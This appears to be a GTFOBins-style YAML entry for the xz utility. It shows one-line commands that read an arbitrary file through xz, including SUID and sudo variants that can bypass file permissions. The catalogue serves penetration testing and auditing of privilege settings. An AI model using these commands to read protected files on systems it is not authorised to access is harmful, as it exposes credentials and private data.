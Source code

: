 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        xz -c "$LFILE" | xz -d
  suid:
    - code: |
        LFILE=file_to_read
        ./xz -c "$LFILE" | xz -d
  sudo:
    - code: |
        LFILE=file_to_read
        sudo xz -c "$LFILE" | xz -d
---

